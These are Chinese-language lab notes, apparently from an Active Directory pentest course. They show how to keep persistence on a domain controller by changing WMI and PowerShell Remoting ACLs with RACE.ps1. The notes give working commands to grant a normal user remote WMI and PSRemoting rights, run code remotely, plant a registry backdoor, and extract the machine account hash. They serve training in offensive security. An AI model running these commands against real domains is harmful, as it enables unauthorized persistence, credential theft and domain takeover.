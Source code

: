 ## Persistence using ACLs WMi
>[!NOTE]
>可以當你已經取得管理員（Admin）或域控制器上的域管理員（Domain Admin, DA）權限後使用RACE.ps1調整存取控制清單（ACLs），以取得持久性（persistence）或按需升權（privilege escalation）。

>[!WARNING]
>執行後，會在目標主機 `dcorp-dc` 的 WMI namespace `root\cimv2` 上**新增或修改 ACL（安全描述）**，讓 `studentx` 擁有某些 WMI 存取權限（例如 Query/Execute/Remote Access / Namespace 操作等，實際給哪種權限依該函式實作而定）。結果是 `studentx` 之後能以該帳號透過 WMI/DCOM 或遠端管理 API 對 `dcorp-dc` 做更多操作（例如利用 WMI 遠端執行命令、查詢系統資訊、或作為 lateral movement / persistence 的一部分）。
- `Set-RemotePSRemoting`：修改 PowerShell 遠端（Remoting）端點的 ACL，讓某個帳號可以遠端使用 PS remoting 存取該機器（即使該帳號原本不是 Admin）。
- `Set-RemoteWMI`：修改遠端機器上的 DCOM endpoint 或 WMI namespace 的 ACL，使某帳號可以管控或訪問遠端 WMI／DCOM。

- 導入RACE.ps1
```powershell
C:\AD\Tools\RACE-master\RACE.ps1
```

### 提出修改ACL請求
``` powershell
Set-RemoteWMI -SamAccountName studentx -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```
``` powershell
Set-RemotePSRemoting -SamAccountName studentx -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```
- `-SamAccountName studentx`  
    指定要給權限的帳號（域帳號或本機帳號），這裡是 `studentx`（用 SAM 帳號格式）。
- `-ComputerName dcorp-dc`  
    目標電腦名稱，通常是要修改其 WMI namespace ACL 的主機；`dcorp-dc` 看起來像一台域控制器（Domain Controller）。
- `-namespace 'root\cimv2'`  
    指定要修改的 WMI namespace。`root\cimv2` 是預設且最常用的 namespace（包含許多系統管理類別）。

- 移除ACL
```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```
### 驗證權利
>[!NOTE]
>驗證是否有WMI Queries on theDC的權利
``` powershell
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```

- 於目標主機任意程式碼執行
``` powershell
Invoke-Command -ScriptBlock{$env:username} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
- 利用修改ACL的方式，讓一般用戶可以取得machine account hash
``` powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee studentx -Verbose
```
``` powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```
## RemoteWMI
>[!note]
>原本是Domain Admin 權限修改 Domain Controller 上 的 security descriptors，把 一般使用者加進去，讓它雖然不是管理員也能用 WMI 遠端管控 DC。
>但是做這件事情的前提是你是目標機器的管理員。
